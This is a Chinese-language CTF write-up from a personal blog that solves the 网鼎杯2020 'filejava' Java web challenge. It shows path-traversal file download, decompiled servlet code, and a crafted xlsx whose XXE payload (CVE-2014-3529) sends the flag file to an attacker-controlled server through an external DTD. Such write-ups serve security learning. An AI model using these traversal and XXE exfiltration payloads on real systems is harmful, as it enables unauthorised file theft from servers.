





解题步骤
随便传入一个文件
然后再下载他的时候抓包

存在一个filename参数，尝试目录穿越，实现任意文件的下载
执行../../../../../../../etc/passwd

成功得到了敏感信息，实现了任意文件的下载，因为题目是java环境，我们需要看看web.xml的项目结构


下载对应的class文件
//web.xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
version="4.0">
<servlet>
<servlet-name>DownloadServlet</servlet-name>
<servlet-class>cn.abc.servlet.DownloadServlet</servlet-class>
</servlet>
<servlet-mapping>
<servlet-name>DownloadServlet</servlet-name>
<url-pattern>/DownloadServlet</url-pattern>
</servlet-mapping>
<servlet>
<servlet-name>ListFileServlet</servlet-name>
<servlet-class>cn.abc.servlet.ListFileServlet</servlet-class>
</servlet>
<servlet-mapping>
<servlet-name>ListFileServlet</servlet-name>
<url-pattern>/ListFileServlet</url-pattern>
</servlet-mapping>
<servlet>
<servlet-name>UploadServlet</servlet-name>
<servlet-class>cn.abc.servlet.UploadServlet</servlet-class>
</servlet>
<servlet-mapping>
<servlet-name>UploadServlet</servlet-name>
<url-pattern>/UploadServlet</url-pattern>
</servlet-mapping>
</web-app>//DownloadServlet.class
import cn.abc.servlet.DownloadServlet;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;
import java.net.URLEncoder;
import javax.servlet.ServletException;
import javax.servlet.ServletOutputStream;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
public class DownloadServlet extends HttpServlet {
private static final long serialVersionUID = 1L;
protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
doPost(request, response);
}
protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
String fileName = request.getParameter("filename");
fileName = new String(fileName.getBytes("ISO8859-1"), "UTF-8");
System.out.println("filename=" + fileName);
if (fileName != null && fileName.toLowerCase().contains("flag")) {
request.setAttribute("message", ");
request.getRequestDispatcher("/message.jsp").forward((ServletRequest)request, (ServletResponse)response);
return;
}
String fileSaveRootPath = getServletContext().getRealPath("/WEB-INF/upload");
String path = findFileSavePathByFileName(fileName, fileSaveRootPath);
File file = new File(path + "/" + fileName);
if (!file.exists()) {
request.setAttribute("message", ");
request.getRequestDispatcher("/message.jsp").forward((ServletRequest)request, (ServletResponse)response);
return;
}
String realname = fileName.substring(fileName.indexOf("_") + 1);
response.setHeader("content-disposition", "attachment;filename=" + URLEncoder.encode(realname, "UTF-8"));
FileInputStream in = new FileInputStream(path + "/" + fileName);
ServletOutputStream out = response.getOutputStream();
byte[] buffer = new byte[1024];
int len = 0;
while ((len = in.read(buffer)) > 0)
out.write(buffer, 0, len);
in.close();
out.close();
}
public String findFileSavePathByFileName(String filename, String saveRootPath) {
int hashCode = filename.hashCode();
int dir1 = hashCode & 0xF;
int dir2 = (hashCode & 0xF0) >> 4;
String dir = saveRootPath + "/" + dir1 + "/" + dir2;
File file = new File(dir);
if (!file.exists())
file.mkdirs();
return dir;
}
}这个Servlet的功能就是下载文件，但是在中间过滤掉了flag，所以就导致不能够直接读取flag文件
//UploadServlet.class
import cn.abc.servlet.UploadServlet;
import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.util.List;
import java.util.UUID;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.apache.commons.fileupload.FileItem;
import org.apache.commons.fileupload.FileItemFactory;
import org.apache.commons.fileupload.FileUploadException;
import org.apache.commons.fileupload.disk.DiskFileItemFactory;
import org.apache.commons.fileupload.servlet.ServletFileUpload;
import org.apache.poi.openxml4j.exceptions.InvalidFormatException;
import org.apache.poi.ss.usermodel.Sheet;
import org.apache.poi.ss.usermodel.Workbook;
import org.apache.poi.ss.usermodel.WorkbookFactory;
public class UploadServlet extends HttpServlet {
private static final long serialVersionUID = 1L;
protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
doPost(request, response);
}
protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
String savePath = getServletContext().getRealPath("/WEB-INF/upload");
String tempPath = getServletContext().getRealPath("/WEB-INF/temp");
File tempFile = new File(tempPath);
if (!tempFile.exists())
tempFile.mkdir();
String message = "";
try {
DiskFileItemFactory factory = new DiskFileItemFactory();
factory.setSizeThreshold(102400);
factory.setRepository(tempFile);
ServletFileUpload upload = new ServletFileUpload((FileItemFactory)factory);
upload.setHeaderEncoding("UTF-8");
upload.setFileSizeMax(1048576L);
upload.setSizeMax(10485760L);
if (!ServletFileUpload.isMultipartContent(request))
return;
List<FileItem> list = upload.parseRequest(request);
for (FileItem fileItem : list) {
if (fileItem.isFormField()) {
String name = fileItem.getFieldName();
String str = fileItem.getString("UTF-8");
continue;
}
String filename = fileItem.getName();
if (filename == null || filename.trim().equals(""))
continue;
String fileExtName = filename.substring(filename.lastIndexOf(".") + 1);
InputStream in = fileItem.getInputStream();
if (filename.startsWith("excel-") && "xlsx".equals(fileExtName))
try {
Workbook wb1 = WorkbookFactory.create(in);
Sheet sheet = wb1.getSheetAt(0);
System.out.println(sheet.getFirstRowNum());
} catch (InvalidFormatException e) {
System.err.println("poi-ooxml-3.10 has something wrong");
e.printStackTrace();
}
String saveFilename = makeFileName(filename);
request.setAttribute("saveFilename", saveFilename);
request.setAttribute("filename", filename);
String realSavePath = makePath(saveFilename, savePath);
FileOutputStream out = new FileOutputStream(realSavePath + "/" + saveFilename);
byte[] buffer = new byte[1024];
int len = 0;
while ((len = in.read(buffer)) > 0)
out.write(buffer, 0, len);
in.close();
out.close();
message = ";
}
} catch (FileUploadException e) {
e.printStackTrace();
}
request.setAttribute("message", message);
request.getRequestDispatcher("/ListFileServlet").forward((ServletRequest)request, (ServletResponse)response);
}
private String makeFileName(String filename) {
return UUID.randomUUID().toString() + "_" + filename;
}
private String makePath(String filename, String savePath) {
int hashCode = filename.hashCode();
int dir1 = hashCode & 0xF;
int dir2 = (hashCode & 0xF0) >> 4;
String dir = savePath + "/" + dir1 + "/" + dir2;
File file = new File(dir);
if (!file.exists())
file.mkdirs();
return dir;
}
}这里就是和上传文件有关的Servlet了，其中poi-ooxml-3.10.jar包是具有漏洞的
CVE-2014-3529
我们就需要构造恶意的excel-111.xlsx文件
首先，新建一个xlsx文件，然后解压之后在[Content_Types].xml中的第二行添加
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % remote SYSTEM "http://服务器ip/1.dtd">
%remote;
%all;
]>
<root>&send;</root>然后压缩为excel-111.xlsx文件并且在vps上面开启一个http服务,新建一个1.dtd外部实体
<!ENTITY % all "<!ENTITY send SYSTEM 'http://服务器ip:监听端口/%file;'>">之后监听，就可以得到flag

I'm so cute. Please give me money.


- Post link: https://roboterh.github.io/2022/04/09/%E7%BD%91%E9%BC%8E%E6%9D%AF2020-filejava/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.